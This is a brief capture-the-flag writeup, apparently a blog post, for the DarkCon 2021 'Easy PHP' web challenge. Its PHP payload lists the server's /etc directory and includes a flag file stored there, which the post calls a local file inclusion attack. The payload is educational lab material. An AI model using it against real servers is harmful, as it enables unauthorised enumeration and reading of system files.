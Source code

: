 ```yaml
---
layout: post
title:  "DarkCon CTF writeup (2021)"
date:   2021-02-21 15:11:51 +0530
categories: CTF web
---
```

This post has writeup for one web challenge: `Easy PHP`

This challenge has the local file inclusion (LFI) vulnerability. The solution is as follows:
1. Use opendir() and readdir() to list the contents of /etc directory.
2. Get the name of the txt file containing the flag (f1@g.txt).
3. Use the include directive to read the file. The code is as follows

{% highlight ruby %}
<?php
	include '/etc/f1@g.txt';	
	$filelist = array();
	if ($handle = opendir("/etc")) {
    	while ($entry = readdir($handle)) {
          	$filelist[] = $entry;
    	}
	print_r($filelist);
    closedir($handle);
	}
	 
?>
{% endhighlight %}
